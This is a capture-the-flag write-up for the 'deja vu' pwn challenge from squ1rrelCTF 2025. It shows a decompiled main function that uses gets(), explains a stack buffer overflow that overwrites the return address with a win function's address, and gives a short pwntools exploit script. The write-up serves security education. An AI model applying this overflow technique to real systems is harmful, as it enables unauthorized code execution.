 ```yaml
---
title: "deja vu"
date: 2025-04-06
layout: writeup
platform: squ1rrelCTF 2025
categories: [pwn]
tags: [Buffer Overflow, Stack Pivoting]
difficulty: Medium
---
```


# deja vu

## Challenge Description

We have a netcat server running.
Upon connection, it prompts us with `pwnme:`
Entering anything into the prompt does not yield any response and the connection is closed.

## Binary Ninja

The main function is pretty basic.

```c
int main(int argc, char **argv, char **envp) {
    setbuf(__bss_start, nullptr);
    setbuf(stdin, nullptr);
    printf("pwnme: ");
    void buf;
    gets(&buf);
    return 0;
}
```

There is a `win` function also, which prints the flag.

## Solution

Looking at the `main` function, we can see that it uses `gets`, which is a classic buffer overflow vulnerability.
We can overflow the buffer and overwrite the return address with the address of the `win` function.
looking at the disassembly, we can see that the `win` function is located at `0x4011f6`.

The stack offset for the `buf` variable is `0x48` bytes.

Hence we can use the following python script to exploit the binary:

```python
from pwn import *
c = remote("<url>", port)
payload = b"A" * 0x48 + b'\xf6\x11\x40\x00\x00\x00\x00' + b'\n'

c.recv()
c.send(payload)
c.interactive()
```
